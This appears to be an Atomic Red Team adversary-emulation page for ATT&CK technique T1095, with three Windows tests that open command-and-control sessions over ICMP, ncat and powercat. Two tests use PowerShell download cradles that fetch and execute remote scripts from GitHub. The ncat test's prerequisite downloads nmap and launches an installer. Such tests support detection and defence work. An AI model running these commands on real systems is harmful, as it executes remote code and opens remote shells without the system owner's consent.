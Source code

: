# T1095 - Standard Non-Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1095)
<blockquote>Use of a standard non-application layer protocol for communication between host and C2 server or among infected hosts within a network. The list of possible protocols is extensive. (Citation: Wikipedia OSI) Specific examples include use of network layer protocols, such as the Internet Control Message Protocol (ICMP), transport layer protocols, such as the User Datagram Protocol (UDP), session layer protocols, such as Socket Secure (SOCKS), as well as redirected/tunneled protocols, such as Serial over LAN (SOL).

ICMP communication between hosts is one example. Because ICMP is part of the Internet Protocol Suite, it is required to be implemented by all IP-compatible hosts; (Citation: Microsoft ICMP) however, it is not as commonly monitored as other Internet Protocols such as TCP or UDP and may be used by adversaries to hide communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - ICMP C2](#atomic-test-1---icmp-c2)

- [Atomic Test #2 - Netcat C2](#atomic-test-2---netcat-c2)

- [Atomic Test #3 - Powercat C2](#atomic-test-3---powercat-c2)


<br/>

## Atomic Test #1 - ICMP C2
This will attempt to  start C2 Session Using ICMP. For information on how to set up the listener
refer to the following blog: https://www.blackhillsinfosec.com/how-to-c2-over-icmp/

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address of the listening server | ip | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 
```
IEX (New-Object System.Net.WebClient).Downloadstring('https://raw.githubusercontent.com/samratashok/nishang/c75da7f91fcc356f846e09eab0cfd7f296ebf746/Shells/Invoke-PowerShellIcmp.ps1')
Invoke-PowerShellIcmp -IPAddress #{server_ip}
```






<br/>
<br/>

## Atomic Test #2 - Netcat C2
Start C2 Session Using Ncat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|
| server_port | The port for the C2 connection | integer | 80|
| ncat_exe | The location of ncat.exe | path | $env:TEMP\T1095\nmap-7.80\ncat.exe|


#### Attack Commands: Run with `powershell`! 
```
cmd /c #{ncat_exe} #{server_ip} #{server_port}
```



#### Dependencies:  Run with `PowerShell`!
##### Description: ncat.exe must be available at specified location (#{ncat_exe})
##### Check Prereq Commands:
```
if( Test-Path "#{ncat_exe}") {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```
$parentpath = Split-Path (Split-Path "#{ncat_exe}"); $zippath = "$parentpath\nmap.zip"
Invoke-WebRequest  "https://nmap.org/dist/nmap-7.80-win32.zip" -OutFile "$zippath"
Expand-Archive $zippath $parentpath -Force
$unzipPath = Join-Path $parentPath "nmap-7.80"
if( $null -eq (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | ?{$_.DisplayName -like "Microsoft Visual C++*"}) ) {
  Start-Process (Join-Path $unzipPath "vcredist_x86.exe")
}
```




<br/>
<br/>

## Atomic Test #3 - Powercat C2
Start C2 Session Using Powercat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | ip | 127.0.0.1|
| server_port | The port for the C2 connection | port number | 80|


#### Attack Commands: Run with `powershell`! 
```
IEX (New-Object System.Net.Webclient).Downloadstring('https://raw.githubusercontent.com/besimorhino/powercat/ff755efeb2abc3f02fa0640cd01b87c4a59d6bb5/powercat.ps1')
powercat -c #{server_ip} -p #{server_port}
```






<br/>
